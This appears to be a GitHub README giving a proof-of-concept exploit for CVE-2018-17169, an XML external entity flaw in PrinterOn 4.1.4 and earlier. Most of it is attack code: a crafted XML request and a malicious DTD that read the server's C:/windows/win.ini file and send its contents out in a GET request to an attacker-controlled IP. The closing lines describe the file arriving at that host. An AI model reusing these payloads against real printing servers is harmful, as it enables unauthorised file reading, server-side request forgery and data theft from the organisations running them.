



# CVE-2018-17169-XXE-PrinterON
<br />
An XML external entity (XXE) vulnerability in PrinterOn version 4.1.4 and lower allows remote authenticated users to read arbitrary files or conduct server-side request forgery (SSRF) attacks via a crafted DTD in an XML request.
<br />


##### Malicious XML (local-dtd.xml):
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://192.168.1.136/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r> 
```

##### Malicious DTD (ev.xml):
```
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://192.168.1.136/?%data;'>">
```

##### We serve a malicious xml document to the printer:

<br />



We can see that our DTD (ev.xml) is being requested and processed.
The external entity declared within the DTD file is resolved and C:/Windows/win.ini file from the server filesystem is being sent to us in a GET request within the url. 


